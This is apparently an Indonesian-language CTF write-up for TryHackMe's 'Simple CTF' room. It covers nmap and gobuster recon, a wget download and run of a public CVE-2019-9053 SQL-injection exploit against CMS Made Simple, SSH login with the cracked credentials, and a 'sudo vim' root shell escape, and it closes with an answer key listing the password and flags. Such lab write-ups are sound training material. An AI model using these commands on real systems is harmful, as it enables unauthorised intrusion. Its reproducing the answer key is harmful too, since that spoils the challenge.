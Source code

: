 # CTF - Simple CTF
- TryHackMe Challenge: https://tryhackme.com/room/easyctf
- IP Machine: 10.10.128.226

## Port Scanning
- Baris perintah: `nmap -sC -sV <IP Machine>`

```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sC -sV 10.10.128.226   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-06 20:21 EDT
Nmap scan report for 10.10.128.226
Host is up (0.21s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.142.62
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.37 seconds
```

- Buka halaman web `http://<IP_machine>` di browser


## Gobuster
- Cari directory web menggunakan tool gobuster dengan perintah `gobuster dir -u http://<IP_Machine> -w <wordlists>`



## Gain Access
- Dari hasil tool gobuster ditemukan halaman **/simple** buka halaman tersebut di browser dengan url `http://<IP_Machine>/simple`


- Di halaman tersebut terdapat informasi bahwa halaman tersebut dibuat dengan CMS Made Simple versi 2.2.8


- Cari exploit CMS tersebut di google

- Di web https://www.exploit-db.com/exploits/46635 terdapat informasi bahwa celah keamanan CMS tersebut adalah SQL Injection (SQLi)

- Kita bisa mendownload script exploit di https://www.exploit-db.com/exploits/46635 untuk python versi 3 kita bisa mendownload script di https://github.com/e-renna/CVE-2019-9053 menggunakan wget
```sh
wget https://raw.githubusercontent.com/e-renna/CVE-2019-9053/master/exploit.py
```

- Jalankan program exploit.py dengan perintah sebagai berikut:
```sh
python3 exploit.py -u http://<IP_Machine>/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
```


- Proses exploit berhasil, sekarang kita bisa menggunakan username dan password tersebut untuk mengakses SSH dengan perintah `ssh mitch@IP_Machine -p 2222`

- Setelah berhasil login, disana terdapat file **user.txt** yang berisi user flag. Baca isi dengan perintah `cat user.txt`

- Pada directory home, selain ditemukan directory **mitch** juga ditemukan directory **sunbath**


## Privilege Escalation
- Gunakan perintah `sudo -l` untuk melihat perintah yang bisa dijalankan tanpa akses root. Disini kita dapat menjalankan **vim** dengan perintah **sudo**

- Kita bisa memanfaatkan script di https://gtfobins.github.io/gtfobins/vim/ untuk mendapatkan akses root melalui vim

- Jalankan script diatas untuk mendapatkan akses root
```sh
sudo vim -c ':!/bin/sh'
```

- Sekarang kita tinggal membaca file root.txt sebagai root flag dengan perintah `cat /root/root.txt`



## Pertanyaan dan Jawaban:

- **Pertanyaan:** How many services are running under port 1000?
```sh
2
```

- **Pertanyaan:** What is running on the higher port?
```sh
SSH
```

- **Pertanyaan:** What's the CVE you're using against the application?
```sh
CVE-2019-9053
```

- **Pertanyaan:** To what kind of vulnerability is the application vulnerable?
```sh
SQLi
```

- **Pertanyaan:** What's the password?
```sh
secret
```

- **Pertanyaan:** Where can you login with the details obtained?
```sh
SSH
```

- **Pertanyaan:** What's the user flag?
```sh
G00d j0b, keep up!
```

- **Pertanyaan:** Is there any other user in the home directory? What's its name?
```sh
sunbatch
```

- **Pertanyaan:** What can you leverage to spawn a privileged shell?
```sh
vim
```

- **Pertanyaan:** What's the root flag?
```sh
W3ll d0n3. You made it!
```